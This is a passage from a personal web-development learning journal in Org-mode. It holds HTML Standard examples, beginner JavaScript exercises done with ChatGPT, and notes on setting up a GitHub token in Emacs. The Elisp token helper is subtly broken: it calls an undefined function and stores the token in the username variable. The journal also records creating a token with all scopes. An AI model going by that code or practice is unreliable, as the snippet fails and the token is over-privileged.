          be true. But our preferences do not determine what's true. We have a
          method, and that method helps us to reach not absolute truth, only
          asymptotic approaches to the truth — never there, just closer
          and closer, always finding vast new oceans of undiscovered
          possibilities. Cleverly designed experiments are the key.</p>
      </blockquote>
      <figcaption>Carl Sagan, in "<cite>Wonder and Skepticism</cite>", from
        the <cite>Skeptical Inquirer</cite> Volume 19, Issue 1 (January-February
        1995)</figcaption>
        </figure>
    <hr/>
    <article>
      <h1><a href="https://bacon.example.com/?blog=109431">Bacon on a crowbar</a></h1>
      <article>
        <header><strong>t3yw</strong> 12 points 1 hour ago</header>
        <p>I bet a narwhal would love that.</p>
        <footer><a href="?pid=29578">permalink</a></footer>
        <article>
          <header><strong>greg</strong> 8 points 1 hour ago</header>
          <blockquote><p>I bet a narwhal would love that.</p></blockquote>
          <p>Dude narwhals don't eat bacon.</p>
          <footer><a href="?pid=29579">permalink</a></footer>
          <article>
            <header><strong>t3yw</strong> 15 points 1 hour ago</header>
            <blockquote>
              <blockquote><p>I bet a narwhal would love that.</p></blockquote>
              <p>Dude narwhals don't eat bacon.</p>
            </blockquote>
            <p>Next thing you'll be saying they don't get capes and wizard
              hats either!</p>
            <footer><a href="?pid=29580">permalink</a></footer>
            <article>
              <article>
                <header><strong>boing</strong> -5 points 1 hour ago</header>
                <p>narwhals are worse than ceiling cat</p>
                <footer><a href="?pid=29581">permalink</a></footer>
              </article>
            </article>
          </article>
        </article>
        <article>
          <header><strong>fred</strong> 1 points 23 minutes ago</header>
          <blockquote><p>I bet a narwhal would love that.</p></blockquote>
          <p>I bet they'd love to peel a banana too.</p>
          <footer><a href="?pid=29582">permalink</a></footer>
        </article>
      </article>
    </article>
    <hr>
    <p>He began his list of "lessons" with the following:</p>
    <blockquote>One should never assume that his side of
      the issue will be recognized, let alone that it will
      be conceded to have merits.</blockquote>
    <p>He continued with a number of similar points, ending with:</p>
    <blockquote>Finally, one should be prepared for the threat
      of breakdown in negotiations at any given moment and not
      be cowed by the possibility.</blockquote>
    <p>We shall now discuss these points...</p>
  </body>
</html>
#+end_src

** ~ol~

[[file:pages/ol.html][pages/ol.html]] ≡

#+begin_src html :tangle pages/ol.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>ol</title>
  </head>

  <body>
    <p>I have lived in the following countries (given in the order of when
      I first lived there):</p>
    <hr>
    <ol>
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed>
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed start="3">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed start="2">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="I" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="i" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="A" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="a" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
  </body>
</html>
#+end_src

** ~menu~

[[file:pages/menu.html][pages/menu.html]] ≡

#+begin_src html :tangle pages/menu.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>menu</title>
  </head>

  <body>
    <menu>
      <li><button onclick="copy()"><img src="copy.svg" alt="Copy"></button></li>
      <li><button onclick="cut()"><img src="cut.svg" alt="Cut"></button></li>
      <li><button onclick="paste()"><img src="paste.svg" alt="Paste"></button></li>
    </menu>
  </body>
</html>
#+end_src

** ~dl~

[[file:pages/dl.html][pages/dl.html]] ≡

#+begin_src html :tangle pages/dl.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>dl</title>
  </head>

  <body>
    <dl>
      <dt> Authors
        <dd> John
          <dd> Luke
            <dt> Editor
              <dd> Frank
    </dl>
    <hr>
    <dl>
      <div itemscope itemtype="http://schema.org/Product">
        <dt itemprop="name">Café ou Chocolat Liégeois
          <dd itemprop="offers" itemscope itemtype="http://schema.org/Offer">
            <span itemprop="price">3.50</span>
            <data itemprop="priceCurrency" value="EUR">€</data>
            <dd itemprop="description">
              2 boules Café ou Chocolat, 1 boule Vanille, sauce café ou chocolat, chantilly
      </div>

      <div itemscope itemtype="http://schema.org/Product">
        <dt itemprop="name">Américaine
          <dd itemprop="offers" itemscope itemtype="http://schema.org/Offer">
            <span itemprop="price">3.50</span>
            <data itemprop="priceCurrency" value="EUR">€</data>
            <dd itemprop="description">
              1 boule Crème brûlée, 1 boule Vanille, 1 boule Caramel, chantilly
      </div>
    </dl>
    <hr>
    <dl>
      <dt><dfn>happiness</dfn></dt>
      <dd class="pronunciation">/ˈhæpinəs/</dd>
      <dd class="part-of-speech"><i><abbr>n.</abbr></i></dd>
      <dd>The state of being happy.</dd>
      <dd>Good fortune; success. <q>Oh <b>happiness</b>! It worked!</q></dd>
      <dt><dfn>rejoice</dfn></dt>
      <dd class="pronunciation">/rɪˈdʒɔɪs/</dd>
      <dd><i class="part-of-speech"><abbr>v.intr.</abbr></i> To be delighted oneself.</dd>
      <dd><i class="part-of-speech"><abbr>v.tr.</abbr></i> To cause one to be delighted.</dd>
    </dl>
  </body>
</html>
#+end_src

** ~figure~

Things with a caption.

[[file:pages/figure.html][pages/figure.html]] ≡

#+begin_src html :tangle pages/figure.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>figure</title>
  </head>

  <body>
    <p>In <a href="#l4">listing 4</a> we see the primary core interface
      API declaration.</p>
    <figure id="l4">
      <figcaption>Listing 4. The primary core interface API declaration.</figcaption>
      <pre><code>interface PrimaryCore {
  boolean verifyDataLine();
  undefined sendData(sequence&lt;byte> data);
  undefined initSelfDestruct();
}</code></pre>
    </figure>
    <p>The API is designed to use UTF-8.</p>
    <hr/>
    <figure>
      <figcaption>The castle through the ages: 1423, 1858, and 1999 respectively.</figcaption>
      <figure>
        <figcaption>Etching. Anonymous, ca. 1423.</figcaption>
        <img src="castle1423.jpeg" alt="The castle has one tower, and a tall wall around it.">
      </figure>
      <figure>
        <figcaption>Oil-based paint on canvas. Maria Towle, 1858.</figcaption>
        <img src="castle1858.jpeg" alt="The castle now has two towers and two walls.">
      </figure>
      <figure>
        <figcaption>Film photograph. Peter Jankle, 1999.</figcaption>
        <img src="castle1999.jpeg" alt="The castle lies in ruins, the original tower all that remains in one piece.">
      </figure>
    </figure>
    <hr/>
    <figure>
      <img src="castle1423.jpeg" title="Etching. Anonymous, ca. 1423."
        alt="The castle has one tower, and a tall wall around it.">
      <img src="castle1858.jpeg" title="Oil-based paint on canvas. Maria Towle, 1858."
        alt="The castle now has two towers and two walls.">
      <img src="castle1999.jpeg" title="Film photograph. Peter Jankle, 1999."
        alt="The castle lies in ruins, the original tower all that remains in one piece.">
      <figcaption>The castle through the ages: 1423, 1858, and 1999 respectively.</figcaption>
    </figure>
  </body>
</html>
#+end_src

** ~main~

[[file:pages/main.html][pages/main.html]] ≡

#+begin_src html :tangle pages/main.html
<!DOCTYPE html>
<html lang="en">
  <title>RPG System 17</title>
  <style>
  header, nav, aside, main, footer {
    margin: 0.5em; border: thin solid; padding: 0.5em;
    background: #EFF; color: black; box-shadow: 0 0 0.25em #033;
  }
  h1, h2, p { margin: 0; }
  nav, main { float: left; }
  aside { float: right; }
  footer { clear: both; }
  </style>
  <header>
    <h1>System Eighteen</h1>
  </header>
  <nav>
    <a href="../16/">← System 17</a>
    <a href="../18/">RPXIX →</a>
  </nav>
  <aside>
    <p>This system has no HP mechanic, so there's no healing.
  </aside>
  <main>
    <h2>Character creation</h2>
    <p>Attributes (magic, strength, agility) are purchased at the cost of one point per level.</p>
    <h2>Rolls</h2>
    <p>Each encounter, roll the dice for all your skills. If you roll more than the opponent, you win.</p>
  </main>
  <footer>
    <p>Copyright © 2013
  </footer>
</html>
#+end_src

[[file:pages/main-2.html][pages/main-2.html]] ≡

#+begin_src html :tangle pages/main-2.html
<!doctype html>
<html lang=en-CA>
<meta charset=utf-8>
<title> … </title>
<link rel=stylesheet href=spa.css>
<script src=spa.js async></script>
<nav>
 <a href=/>Home</a>
 <a href=/about>About</a>
 <a href=/contact>Contact</a>
</nav>
<main>
 <h1>Home</h1>
 …
</main>
<main hidden>
 <h1>About</h1>
 …
</main>
<main hidden>
  <h1>Contact</h1>
  …
</main>
<footer>Made with ❤️ by <a href=https://example.com/>Example 👻</a>.</footer>
#+end_src

** ~em~ and ~strong~

- ~em~ is for *emphasis*
  - same voice, different tone
  - ~i~: different voice
- ~strong~ is for *importance*
  - ~b~: keywords

** ~small~

For small print.

[[file:pages/small.html][pages/small.html]] ≡

#+begin_src html :tangle pages/small.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>small</title>
  </head>

  <body>
    <p>Example Corp today announced record profits for the
      second quarter <small>(Full Disclosure: Foo News is a subsidiary of
      Example Corp)</small>, leading to speculation about a third quarter
      merger with Demo Group.
    </p>
    <p><q>This is correct</q>, said Ian.</p>
  </body>
</html>
#+end_src

** Web Workers

[[file:pages/web-worker.html][pages/web-worker.html]] ≡

#+begin_src html :tangle pages/web-worker.html
<!DOCTYPE HTML>
<html lang="en">
 <head>
  <meta charset="utf-8">
  <title>Worker example: One-core computation</title>
 </head>
 <body>
  <p>The highest prime number discovered so far is: <output id="result"></output></p>
  <script>
   var worker = new Worker('./worker.js');
   worker.onmessage = function (event) {
     console.log('hehe');
     document.getElementById('result').textContent = event.data;
   };
  </script>
 </body>
</html>
#+end_src

[[file:pages/worker.js][pages/worker.js]] ≡

#+begin_src js :tangle pages/worker.js
var n = 1;
search: while (true) {
  n += 1;
  for (var i = 2; i <= Math.sqrt(n); i += 1)
    if (n % i == 0)
     continue search;
  // found a prime!
  postMessage(n);
}
#+end_src

** Finished reading the HTML Standard (kind of)

Just finished reading the HTML Standard---skipping a lot of technical details.
Very interesting.
Funny to see the authors have a sense of humor :)

When I started reading, I wanted to

- Have a basic knowledge of all the elements
  - This was accomplished, as the Standard lists them all, with all the details.
- Learn how to do /responsive/ work with images
  - This was advanced, but I need to practice.
- Learn about Web Workers (and Worklets)
  - Idem.

** What now?

After reading the Standard, I still need to practice that knowledge.
I couldn't memorize each and every detail, so I need to apply to learn.
There are several good ways to learn, but I'll stick to Odin for now--- I'm invested.

** 1h of Coding

Wow!
Today another 1h of coding provided by our friend ChatGPT.
This time I had a harder time keeping up!
Couldn’t finish all the exercises in 1h.
But learned a lot!

[[file:pages/2025-10-05_1h.html][pages/2025-10-05_1h.html]] ≡

#+begin_src html :tangle pages/2025-10-05_1h.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
    <style>
    .dark {
      background-color: black;
      color: white;
    }
    </style>
  </head>

  <body id="body">
    <ul>
      <li><button id="start">Start Timer</button></li>
      <li><button id="stop">Stop Timer</button></li>
      <li><p id="display">0</p></li>
      <li><button id="buttonDarkMode">Toggle Dark Mode</button></li>
      <li><button id="buttonRandomFruit">Random Fruit</button></li>
      <li><p id="pRandomFruit"></p></li>
    </ul>
    <hr>
    <ul id="tasksUl"></ul>
    <script>
    /* Minute 0–10: Timers
     ,* 12. Add a button “Start Timer” and a <p> that starts counting up seconds when clicked.
     ,* Bonus: add a “Stop Timer” button.
     ,* Learn: setInterval, clearInterval. */
    const display = document.getElementById("display");
    function updateDisplay() {
      display.textContent = Number(display.textContent) + 1;
    }
    const start = document.getElementById("start");
    const stop = document.getElementById("stop");
    let intervalID = 0;
    start.addEventListener("click", () => {
      if (!intervalID) {
        intervalID = setInterval(updateDisplay, 1000);
      }
    });
    stop.addEventListener("click", () => {
      clearInterval(intervalID);
      intervalID = 0;
    });

    /* Minute 10–20: Toggle behavior
     ,* 13. Add a button “Toggle Dark Mode.”
     ,* Clicking it should switch the page background to black and text to white, and back again.
     ,* Learn: class toggling (element.classList.toggle). */
    const body = document.getElementById("body");
    document.getElementById("buttonDarkMode")
            .addEventListener("click", () => {
              body.classList.toggle("dark");
            });

    /* Minute 20–30: Random fun
     ,* 14. Add a button “Random Fruit.”
     ,* Reuse your fruits array. Each click should display one random fruit in a <p>.
     ,* Learn: Math.floor(Math.random() * arr.length). */
    function getRandomItem(arr) {
      const i = Math.floor(Math.random() * arr.length);
      return arr[i];
    }
    const fruits = ['apple', 'banana', 'pineapple', 'grapefruit', 'orange'];
    document.getElementById("buttonRandomFruit")
            .addEventListener("click", () => {
              document.getElementById("pRandomFruit").textContent =
                getRandomItem(fruits);
            });

    /* Minute 30–40: Arrays of objects
     ,* 15. Create an array of “tasks,” each object with {text: "Do homework", done: false}.
     ,* Write a function to print them all into a <ul>.
     ,* Bonus: strike-through text if done is true.
     ,* Learn: DOM lists, iterating objects. */
    const tasks = [
      {text: "Do homework", done: false,},
      {text: "Do laundry", done: false,},
      {text: "Walk the dogs", done: false,},
      {text: "Fix spaceship", done: false,},
      {text: "Adopt a giraffe", done: true,},
    ];

    for (const task of tasks) {
      let taskLi = document.createElement('li');
      let taskText = document.createTextNode(task.text);
      if (task.done) {
        let sElement = document.createElement("s");
        sElement.appendChild(taskText);
        taskLi.appendChild(sElement);
      } else {
        taskLi.appendChild(taskText);
      }
      document.getElementById("tasksUl").appendChild(taskLi);
    }
    </script>
  </body>
</html>
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-05_seinfeld.jpeg]]

* [2025-10-04 Sat]

** Google's course

Today I wanna do something "risky": peak at [[https://web.dev/][Google's webdev course]].
I’m feeling curious about a lot of technical nuances and details, and kinda looking for some course that is a middle ground between /hands-on/-focused and /technical-standards/-focused.
The idea is to go over the curriculum, and then reflect.
When I was reading the HTML tech specs, I saw a lot of things that weren't covered on the tutorials; /cool/ things!
I don't know if I should focus on those specs first, or courses, or books.
But I believe a quick look at the curriculum can't hurt.
Let's do it!

The HTML Course is heavily based on the official HTML Standard, but, still, very /fragmented/, and sometimes /vague/.

** HTML Standard

I'm feeling /adventurous/.
Gonna give a peek at the Standard this weekend.

Just read the first 3 chapters; very /technical/---skipped a lot of details.
But the advantage I see is: /not/ consuming a piece of information is /voluntary/, as opposed to consuming third-party tutorials and courses, where they /decide/ which information to ommit.
The problem is: there are no /exercises/; I'll have to deal with that deficiency somehow; probably with tutorials and courses, but /after/ having a general idea of the whole shabang.

** Coding hour

I was half-intending to consider reading the HTML Standard as /valid coding/ for the 1h/day streak.
But... nah.
Then I tried to find something to code.
I want either Elisp or JavaScript.
JavaScript, for focus on current major learning goals.
Exercism, HackerRank, LeetCode, all very advanced problems.
Then asked ChatGPT for some, and this is what I got:

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
  </head>
  <body>
    <section>
      <button id="leButton">Je suis leButton</button>
      <p id="leP">Je suis leP.</p>
    </section>
    <section>
      <button id="buttonColorize">Colorize!</button>
    </section>
    <section>
      <input id="leInput" type="Text">
      <button id="leInputButton">Je suis leInputButton</button>
      <p id="leInputP">Je suis leInputP.</p>
    </section>
    <section>
      <p id="leCounterP">0</p>
      <button id="leCounterButtonPlus">+</button>
      <button id="leCounterButtonMinus">-</button>
    </section>

    <script>
     /* 1. Print “Hello, world!” in the console. */
     console.log('Hello, World!');

     /* 2. Store your name in a variable and log Hello, <name>!. */
     const name="Rafael";
     console.log(`Hello, ${name}!`);

     /* 3. Write a function double(n) that returns n * 2.
        Test it with
        console.log(double(5)). */
     function double(n) {
       return n * 2;
     }
     console.log(double(5));

     /* 4. Ask the user for a number (prompt). If it’s even, log “even”; else “odd”. */
     /* const number = Number(prompt('Give me a number, please.'));
      * if (number % 2 === 0) {
      *   console.log('even');
      * } else {
      *   console.log('odd');
      * } */

     /* 5. Create a function max(a, b) that returns the bigger number. */
     function max(a, b) {
       if (a > b) {
         return a;
       } else {
         return b;
       }
     }

     /* 6. Make an array of 5 fruits. Loop through it and log each fruit. */
     const fruits = ['apple', 'banana', 'pineapple', 'grapefruit', 'orange'];
     for (let i = 0; i < fruits.length; i++) {
       console.log(fruits[i]);
     }

     for (const fruit of fruits) {
       console.log(fruit.toUpperCase());
     }

     /* 7. Write a function that takes an array of numbers and returns their sum. */
     const numbers = [1, 2, 3];
     const sum = numbers.reduce((sum, number) => sum + number);
     console.log(sum);

     /* 8. In HTML, add a <button> and a <p>.
        In JS, when you click the button, change the <p> text to “Button clicked!”. */
     const leButton = document.getElementById("leButton");
     const leP = document.getElementById("leP");
     leButton.addEventListener("click", function () {
       leP.textContent = "Button clicked!";
     });

     /* 9. Add another button that, when clicked, changes the page background color randomly. */
     function randomColor() {
       const randomColor = Math.floor(Math.random() * 16777215).toString(16);
       // Pad with leading zeros if the hex string is shorter than 6 characters
       return `#${randomColor.padStart(6, '0')}`;
     }

     const buttonColorize = document.getElementById("buttonColorize");
     buttonColorize.addEventListener("click", function () {
       color = randomColor();
       console.log(color);
       document.body.style.backgroundColor = color;
     });

     /* 10. Add an <input> and a button.
        When you click the button, display “Hello, <input value>!” in a <p>. */
     const leInput = document.getElementById("leInput");
     const leInputButton = document.getElementById("leInputButton");
     const leInputP = document.getElementById("leInputP");
     leInputButton.addEventListener("click", function () {
       leInputP.textContent = `Hello, ${leInput.value}!`;
     });

     /* Minute 50–60: Mini-project
      * 11. Build a tiny “counter”:
      *     - Add a <p> that shows 0.
      *     - Add “+” and “–” buttons.
      *       - Clicking “+” increases the number, “–” decreases it. */
     const leCounterP = document.getElementById("leCounterP");
     const leCounterButtonPlus = document.getElementById("leCounterButtonPlus");
     const leCounterButtonMinus = document.getElementById("leCounterButtonMinus");
     leCounterButtonPlus.addEventListener("click", function () {
       leCounterP.textContent = `${Number(leCounterP.textContent) + 1}`;
     });
     leCounterButtonMinus.addEventListener("click", function () {
       leCounterP.textContent = `${Number(leCounterP.textContent) - 1}`;
     });
    </script>
  </body>
</html>
#+end_src

After I submitted my solutions, ChatGPT
- complimented the random color generator (Google's LOL)

  #+begin_quote
  Stylistic note
  Your random color generator is neat — padding the hex code was a smart touch! That’s something even many beginners forget.
  #+end_quote
- gave some stylistic and best practices that I didn't agree at first

  #+begin_quote
  Counter readability
  Instead of converting textContent back and forth each click, you could keep a separate variable:
  #+end_quote

  #+begin_src js
  let counter = 0;
  function updateCounter() {
    leCounterP.textContent = counter;
  }
  leCounterButtonPlus.addEventListener("click", () => {
    counter++;
    updateCounter();
  });
  leCounterButtonMinus.addEventListener("click", () => {
    counter--;
    updateCounter();
  });
  updateCounter();
  #+end_src

  My version is more compact, but looks clumsier.
  I could have also done away with the ~`...`~, as it accepts numbers.

  #+begin_src js
  leCounterButtonPlus.addEventListener("click", function () {
      leCounterP.textContent = `${Number(leCounterP.textContent) + 1}`;
  });
  leCounterButtonMinus.addEventListener("click", function () {
      leCounterP.textContent = `${Number(leCounterP.textContent) - 1}`;
  });
  #+end_src



Learned another one!

Surprisingly, it took me just about one hour to do those!
Good on you, ChatGPT!

** Seinfeld Checkmark

[[file:images/2025-10-04_seinfeld.jpeg]]

* [2025-10-03 Fri]
Today I start a new lesson, and a new branch on the assignment tree: /Cascade/, the *C* from CSS.
Just read the lesson text, and now am complementing with the Wikipedia article.
I realized that the more formal texts (like standards) work better for me.
Maybe it's because I like the /raw/ info/rules, and then make my own analogies.

Doing some clean-up on the 02-... assignment.
Also did some cleanup for the other assignments (portfolios should be good looking!)

** 01-cascade-fix
Finished this one today.
It was about that apparently bothers devs a lot: find out the culprit for unexpected styling behavior.
I like that type of mental game!

** Seinfeld Checkmark

[[file:images/2025-10-03_seinfeld.jpeg]]

* [2025-10-02 Thu]

Check out the links for each exercise, with all the action [[https://github.com/rafaelbeirigo/odin-css-exercises][here]].

** 02-class-id-selectors
Just finished second CSS Assignment, and added a checkmark to the [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main][main README of the tasks]].
This one I had to fix a minor detail after finishing it, and then looking at the recommended solution.
I didn't catch one shared property among elements, which could make code legibility and maintenance much easier.
Learned another one!

Now, out to busking, and later some more!

** 03-grouping-selectors
Back from busking, very tired.
But ready to code!

Used my free time to read ahead the [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/intro-to-css/03-grouping-selectors][next assignment]].
Let's get to it.
Done!
After 48 minutes.

For this exercise, I just went full LP, finished the assignment, and /only then/ commited the chunks.
It was much easier to get things flowing, but a little bit messier when dealing with text edits.
But I believe this is a nice approach.

** 04-chaining-selectors
This one was the quickest so far!
Again, LP, and then commit helped.

** 05-descendant-combinator
This was even quicker: 8 minutes!

And with it, I finished the first branch, =intro-to-css=!

** Seinfeld Checkmark
[[file:images/2025-10-02_seinfeld.jpeg]]

* [2025-10-01 Wed]
Today started with some final polishing on the [[https://github.com/rafaelbeirigo/odin-recipes][Recipes Project]].

Writing the commits before coding was a success.
Very comforting to code when you know there's a light at the end of the tunnel, and no rework will be necessary (well, maybe /less/ work...)

Just found out that the [[https://html.spec.whatwg.org/dev][HTML Specification has a version for developers]].
Did some reading, nice stuff.
But potentially a rabbit hole.
Will focus on [[https://www.theodinproject.com/][Odin]].

Now, I start learning CSS!

The action is happening in my [[https://github.com/rafaelbeirigo/odin-css-exercises/blob/main/foundations/intro-to-css/01-css-methods/README.org][forked repo of the CSS Exercises]].

** Notes from today
- I'm clocking my work, and this is helping to keep me grounded, and also learn realistic timetable expectations;
- CSS is fun
- Literate Programming is really helpful to organize the work, especially so when I must leave the work half-finished, and come back later: it's faster to hit the ground running with LP

** Seinfeld Checkmark

[[file:images/2025-10-01_seinfeld.jpeg]]

* [2025-09-30 Tue]
Back at it!

This new project felt too simple.
I kinda underestimated it and couldn't do something I wanted: a clean commit history from the beginning.
I'll try another approach today: write the commit messages /before/ coding.
Let's see how that goes.
(Still working on the [[https://github.com/rafaelbeirigo/odin-recipes][project Recipes from Odin]]).

Edit: You can see the final version of the page [[https://rafaelbeirigo.github.io/odin-recipes/][here]] (three recipes inspired on Harry Potter's books).

** Systems Thinking
Just heard about it this week.
I believe I applied it today.
I love it!

** Results: Writing the commits before coding
/Very/ helpful, much better!
Knowing that each task had a purpose, and that we would get to the final product was very empowering and calming.
I'd call it a success!

** Seinfeld Checkmark

[[file:images/2025-09-30_seinfeld.jpeg]]

* [2025-09-29 Mon]
Back to HTML!

We're approaching a project on Odin!

Starting with Git.

Just learned about Commit Messages.

Next is a project, and then we start CSS.

** Digression on Git

I have been thinking about yesterday's work, with lots of refactoring, while porting to LP.
It was difficult to keep a clean commit history.

I believe the best way to accomplish it is by planning beforehand.
I have some ideas, that I will experiment with in this next project.

** Project: Recipes

Check it out [[https://github.com/rafaelbeirigo/odin-recipes][here]].

** Seinfeld Checkmark

Hoje foi um dia difícil, mas consegui o X!

[[file:images/2025-09-29_seinfeld.jpeg]]

* [2025-09-28 Sun]
Thought of doing some elisp coding this sunday.
I have this [[https://github.com/rafaelbeirigo/ma-github][project that creates Github repositories directly from inside Emacs]].
As they say: "Life is better when you don't have to leave your editor".

Last time I touched it was 3 years ago.

Today I thought of checking it out, seeing how it stands, and maybe hacking it a bit.
So, for this coding, all the action will happen  [[https://github.com/rafaelbeirigo/ma-github/commits/dev/][commit history for the dev branch of the repository of that project]].

This is how it went.

** Create a Github token
*** First try: Generate a classic token with all the powers
**** Generate
I just checked out if I had the repo in my machine, and it was there.

Then I followed the repo's instructions to run it.
You need an *access token*, and I had to create one.
The proccess was cryptic:
- You have to choose the powers of your token;
- I wanted the power to *create a repository*;
- I couldn't find that option there.


After getting scared by the implications of them insisting on an /expiration date/ for the token, I wanted to create the least powerful, but still useful token.
Invested a dozen minutes trying to read throught the docs, and then realized *I was going down a rabbit hole*.

Decided on just creating the most powerful token possible, with a very short expiration date---seven days (/The Ring/, anyone?).
The steps were:

1. Open the [[https://github.com/settings/tokens/new][page to generate a /Classic/ token]]
2. Put on *Note*: ma-github
3. On *Expiration*: 7 days
4. On *Select scopes*: select everything
5. Click *Generate token*
6. Copy the generated token and paste it on a safe place

**** Access from inside Emacs
Here I Needed some help from ChatGPT:

#+begin_quote
i want to have my Github token accessed by Emacs
How should I do it?
#+end_quote

Then ChatGPT inspired me to change gears.

*** Second try (ChatGPT): Generate a fine-grained token with minimal powers
**** Generate
1. Go to the [[https://github.com/settings/personal-access-tokens][Github page to generate a fine-grained token]]
2. Click *Generate new token*
3. *Token name*: ma-github
4. *Resource owner*: the Github account where the repositories will be created
5. *Expiration*: 30 days
6. *Repository access*: All repositories
7. *Permissions*
   1. Click the *+* button on the upper-right corner
   2. Select *Administration*
   3. Click outside of the selection thingy to make it disappear
   4. On the new item *Administration*, change from *Read-only* to *Read and write*
8. Click *Generate token*
9. Click *Generate token* again, on the pop-up window
10. Copy the token
11. Paste it somewhere safe

**** Access from inside Emacs

***** Set up *authinfo*

1. Follow this [[https://www.masteringemacs.org/article/keeping-secrets-in-emacs-gnupg-auth-sources][instructions to create =~/.authinfo.gpg~]]

   1. Create a key

      1. Open a terminal and run the command

         #+begin_src shell
         gpg --gen-key
         #+end_src

      2. Inform your real name and then your email

      3. It will generate a key in =~/.gnupg=

2. Create (or edit) the file =~/.authinfo.gpg= in Emacs. Use this format (one line per entry):

   #+begin_example
   machine api.github.com login YOUR_GITHUB_USERNAME password <YOUR_TOKEN>
   #+end_example

3. Change the permissions of the file to make it more secure

   #+begin_src shell
   chmod 600 ~/.authinfo.gpg
   #+end_src

***** Fetch the token using *authinfo*

This code snippet uses the token created before to give =ma-github= access to Github.
It

1. Asks for a Github username, and then

2. Sets the environment variables needed by =ma-github=.

#+begin_src elisp
;; ensure auth-source uses the default backends (it does by default)
;; Here is a tiny helper that reads the token and (optionally) sets env var:

(require 'auth-source)

(defun ma-github-token-from-authinfo (&optional username)
  "Find a GitHub token from auth-source for api.github.com and return the secret string."
  (let* ((host "api.github.com")
         (user (or username user-login-name))
         (entry (car (auth-source-search :host host :user user :max 1))))
    (when entry
      (let ((secret (plist-get entry :secret)))
        (if (functionp secret) (funcall secret) secret)))))

;; optional: make token available to Emacs subprocesses (e.g. `curl` from Emacs)
(let* ((user (read-string "Github username: "))
       (tok (my/github-token-from-authinfo user)))
  (when user
    (setenv "MA_GITHUB_USER" tok))
  (when tok
    (setenv "MA_GITHUB_TOKEN" tok)))
#+end_src

Now let's try and create a repo with ma-github.

#+begin_quote
M-x ma-github-create
#+end_quote

And here is the [[https://github.com/rafaelbeirigo/hello-ma-github][Github repository created using ma-github]]!

Now let's integrate the *auth-source* functionality.

Timeline (I tried, but too distracting!):

1. [2025-09-28 Sun 13:13] Breaking the code down in LP blocks.

2. [2025-09-28 Sun 13:13] info on defun optional arguments

3. [...] All the action is on the [[https://github.com/rafaelbeirigo/ma-github/commits/dev/][commit history for the dev branch]].

4. [2025-09-28 Sun 21:02] Ported to LP and tested: (ma-github-create NAME)

I tried my best to be organized, but it's messy.
Next step is to reorganize the commits.
Not for /functionality/, but /learning/.

** Seinfeld Checkmark

[[file:images/2025-09-28_seinfeld.jpeg]]

* [2025-09-27 Sat]
Starting later today.
Overslept.

Let's do this!

** Lists
#+begin_quote
To get some practice using lists, create a new HTML document and create the following lists:
1. An unordered shopping list of your favorite foods
2. An ordered list of todo’s you need to get done today
3. An unordered list of places you’d like to visit someday
4. An ordered list of your all time top 5 favorite video games or movies
#+end_quote

Create the structure for main HTML doc:

[[file:odin/assignments/foundations/lists/index.html][odin/assignments/foundations/lists/index.html]] ≡

#+begin_src html :tangle ~/dev/webdev-study/odin/assignments/foundations/lists/index.html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
    <<food>>
    <<todos>>
    <<places>>
    <<games>>
  </body>
</html>
#+end_src

#+begin_quote
1. An unordered shopping list of your favorite foods
#+end_quote

~<<food>> +≡~

#+begin_src html :noweb-ref food
<h1>My favorite foods</h1>
<ul>
  <li>Lasagna</li>
  <li>Pork ribs</li>
  <li>Avocado with lemon</li>
  <li>Oatmeal</li>
  <li>Warm bread with (real) butter</li>
</ul>
#+end_src

#+begin_quote
2. An ordered list of todo’s you need to get done today
#+end_quote

~<<todos>> +≡~

#+begin_src html :noweb-ref todos
<h1>Todos for Todays</h1>
<ol>
  <li>Code a minimum of 1h</li>
  <li>Exercise and stretch</li>
  <li>Busking</li>
  <li>Play with dogs</li>
  <li>RPG with ChatGPT</li>
</ol>
#+end_src

#+begin_quote
3. An unordered list of places you’d like to visit someday
#+end_quote

~<<places>> +≡~

#+begin_src html :noweb-ref places
<h1>Places I want to visit</h1>
<ul>
  <li>Paris</li>
  <li>Japan</li>
  <li>Portugal</li>
  <li>Germany</li>
  <li>Canada</li>
</ul>
#+end_src

#+begin_quote
4. An ordered list of your all time top 5 favorite video games or movies
#+end_quote

~<<games>> +≡~

#+begin_src html :noweb-ref games
<h1>My favorite games of all time</h1>
<ol>
  <li>Zelda (Ocarina)</li>
  <li>Pokémon Blue/R./Y.</li>
  <li>Metal Slug</li>
  <li>Super Mario World</li>
  <li>Harvest Moon (NES)</li>
</ol>
#+end_src

** [2025-09-27 Sat 11:40] Links and Images
*** Links
:PROPERTIES:
:header-args:html: :session *links-and-images*
:END:
#+begin_quote
1. Create a new directory named odin-links-and-images.
#+end_quote

#+begin_src bash
mkdir ./odin/assignments/foundations/odin-links-and-images
#+end_src

#+RESULTS:

#+begin_quote
